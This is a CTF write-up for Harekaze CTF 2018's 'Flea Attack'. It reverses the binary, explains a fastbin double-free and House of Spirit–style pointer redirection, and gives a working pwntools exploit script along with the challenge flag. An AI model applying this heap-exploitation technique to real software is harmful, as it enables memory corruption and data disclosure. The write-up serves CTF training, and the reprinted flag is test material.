





# __Harekaze CTF 2018__ 
## _Flea Attack_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Exploitation | 200 | merrychap

**Description:** 

> nc problem.harekaze.com 20175

## Solution

Alright, we're given the [flea_attack](./flea_attack) binary.

```sh
$ file flea_attack.elf
    flea_attack.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

Now we know that it's 64-bit ELF. First of all, we have to understand how this thing works.

### Reversing the binary

Here will be pictures of some parts of the reversed code. If you want to see the whole code of the binary, then check out [flea_attack.c](./flea_attack.c) file. Let's open ```main``` function in IDA Pro:

<p align="center">
  
</p>

As you can see, we open the flag and write it somewhere (this function will be shown a little bit below), after this, we enter comment and go to the main loop of the program. In the main loop, we can choose to add a new name or delete an existing one.

### Open flag function

<p align="center">
  
</p>

Here we just open a file with the flag and save its content into ```flag``` global variable. It's obvious that we have to read somehow the content of the ```flag``` variable.

### Gets comment function

<p align="center">
  
</p>

```original_fgets``` function is just a kind of wrapper for ```fgets``` function. Code of ```original_fgets``` you can see in [flea_attack.c](./flea_attack.c). Okay, here we just input a string of 96 bytes length into ```comment``` global variable.

Also, it's important where ```comment``` and ```flag``` variables located. Using IDA Pro we can find out the next:

```asm
.bss:204000 comment         db    ? ;
.bss:204001                 db    ? ;
.bss:204002                 db    ? ;
.bss:204003                 db    ? ;

...........

.bss:204080                 public flag
.bss:204080 flag            db    ? ;
.bss:204081                 db    ? ;
.bss:204082                 db    ? ;
.bss:204083                 db    ? ;
.bss:204084                 db    ? ;
.bss:204085                 db    ? ;
.bss:204086                 db    ? ;

...........

.bss:2040AE                 db    ? ;
.bss:2040AF                 db    ? ;
```

### Add name function

<p align="center">
  
</p>

Here we enter a size for a name, after this, the binary allocates a chunk for the name and then we enter the name itself. As you can see, after this, program prints entered name and an address of this string.

Remember that **this is very important place of the binary**. Also, there is no any validation for the entered size (!).

### Delete name function

<p align="center">
  
</p>

This function is pretty straightforward. Program asks us for an address of a chunk and remove it.


### Find a vulnerability
Okay, we know that we can create chunks of any sizes. And also we're able to delete any chunk. Let's try to make a **```double free```** attack. You can read about it [here](https://www.owasp.org/index.php/Double_Free). 

Double free attack gives us an opportunity to create two different pointers that point to the same chunk. We will be working with fastbin chunks.

```c
1   a = malloc(30);
2   b = malloc(30);
3   c = malloc(30);
4 
5   free(a);   //   head --> a --> tail
6   free(b);   //   head --> b --> a --> tail
7   free(a);   //   head --> a --> b --> a --> tail
8 
9   d = malloc(30)  //   head --> b --> a --> tail
10  e = malloc(30)  //   head --> a --> tail
11  f = malloc(30)  //   head --> tail

//   d and f point to the same chunk!
```

If we try to do the same operations in given binary, then we find out that it attack really works here.

### Exploitation of the binary
What can we do if we have two pointers that point to the same heap chunk? Well, as we know, fastbin chunks have only ```fd``` pointer (without ```bk```) and after allocating a chunk, this pointer is pushed on a fastbin and considered as top of fastbin (fastbin behaves as a stack).

Now let's look at 9 - 10 lines more closely. After allocating a chunk, we enter a string into it. Hence, on the second malloc, fastbin takes entered value (in ```fd``` field) as the new top chunk of the fastbin.

This attack gives us an opportunity to get ```malloc``` to return a nearly-arbitrary pointer (known as House of Spirit attack). If we want malloc to return ```addr``` pointer, then ```addr+8``` has to be the size of chunks in the fastbin (in other case an exception will be raised).

### Get the flag
Okay, we're almost done. We want to read the flag, right? The only one place that prints the string is ```add_name``` function. ```malloc``` gives us a pointer, then we enter a string under the address of the pointer and this value is printed. So, we want flag to be printed, then we want malloc to return address near ```flag``` variable. Let's recall that we have ```comment``` variable. We can enter 94 any bytes and the last 95th byte will be the size of chunks in the fastbin. After this, we will trick the top of the fastbin to point to ```&flag-32``` address. That will give us an opportunity to print the flag!

### Exploit
You can read [exploit.py](./exploit.py) file or just read the code below:

```python
import struct

from pwn import *


def to_num(addr):
    return struct.unpack('Q', addr)[0]


def to_addr(num):
    return struct.pack('Q', num)


def comment(pc, com):
    pc.recvuntil('note:')
    pc.sendline(com)


def add(pc, size, name, fl=False, print_flag=False):
    pc.recvuntil('> ')
    pc.sendline('1')
    pc.recvuntil('Size: ')
    pc.sendline(size)
    pc.recvuntil('Name: ')
    pc.sendline(name)
    if not fl:
        pc.recvline()
    name = pc.recvline()[6:-1]
    resp = pc.recvline()
    if print_flag:
        print(resp)
    addr = pc.recvline()[6:-1]
    return name, addr


def delete(pc, addr):
    pc.recvuntil('> ')
    pc.sendline('2')
    pc.recvuntil('Addr: ')
    pc.sendline(addr)
    pc.recvuntil('3. Exit')
    pc.recvuntil('3. Exit')


def main():
    flag = '\x56\x40\x20\x00\x00\x00\x00\x00'

    pc = remote('problem.harekaze.com', 20175)
    
    comment(pc, 'A' * 94 + '\x41\x00')
    name1, addr1 = add(pc, '45', 'AAAA')
    name2, addr2 = add(pc, '45', 'BBBB')
    name3, addr3 = add(pc, '45', 'CCCC')

    delete(pc, addr1)
    delete(pc, addr2)
    delete(pc, addr1)

    name4, addr4 = add(pc, '45', flag, True)  # after allocating name6, fastbin's top chunk will be changed to desirable address (flag variable).
    name5, addr5 = add(pc, '45', '', True)
    name6, addr6 = add(pc, '45', flag, True)
    
    print(addr4)  # check if double free works
    print(addr6)

    delete(pc, addr4)

    name7, addr7 = add(pc, '45', '')
    name8, addr8 = add(pc, '45', 'AAAAAAAAAAAAAAAAAAAAAAAAA', print_flag=True)

    pc.interactive()


if __name__ == '__main__':
    main()
```

### Flag

And after all produced actions we get the next:

<p align="center">
  
</p>

> HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}